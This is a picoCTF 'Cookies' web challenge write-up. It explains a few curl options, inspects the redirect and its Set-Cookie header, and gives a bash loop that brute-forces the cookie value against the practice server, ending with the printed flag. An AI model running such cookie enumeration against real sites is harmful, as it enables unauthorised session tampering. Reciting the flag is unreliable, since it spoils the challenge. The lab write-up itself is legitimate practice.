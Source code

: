 ```yaml
---
title: PicoCTF - Cookies
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - Cookies
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://mercury.picoctf.net:64944/

## Background
[curl 的用法指南](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
> -H參數添加 HTTP 請求的標頭。
`$ curl -H 'Accept-Language: en-US' https://google.com`

> -s參數將不輸出錯誤和進度信息。
`$ curl -s https://www.example.com`

> -L參數會讓 HTTP 請求跟隨服務器的重定向。curl 默認不跟隨重定向。
`$ curl -L -d 'tweet=hi' https://api.twitter.com/tweet`

> -I參數向服務器發出 HEAD 請求，然會將服務器返回的 HTTP 標頭打印出來。
`$ curl -I https://www.example.com`


## Exploit
1. Try to analyze
When I input something, it'll redirect to another page
![](https://i.imgur.com/Pq7XpNZ.png)
![](https://i.imgur.com/pKZJWfd.png)
I tried to change cookie to different number and also modify the different value of `name` parameter however, still got wrong information.

2. What about the redirect request
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -I
    HTTP/1.1 302 FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 209
    Location: http://mercury.picoctf.net:64944/
    Set-Cookie: name=-1; Path=/
    ```
    You can see that there is a cookie in header

3. How about setting different value?
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -H "Cookie: name=0;" -L
    ...
              <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                </div>



            <div class="jumbotron">
                <p class="lead"></p>
                <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            </div>
    ...
    ```
    It seems a hint to find value.

<font color="FF0000">通靈</font>
4. Brute force
```bash!
$ for i in {1..20};
for> do
for> contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for> if ! echo "$contents" | grep -q "Not very special"; then
for then> echo "Cookie #$i is special"
for then> echo $contents | grep "pico"
for then> break
for then> fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```


## Reference
[[ Day10] Web 小複習 ](https://ithelp.ithome.com.tw/articles/10271065)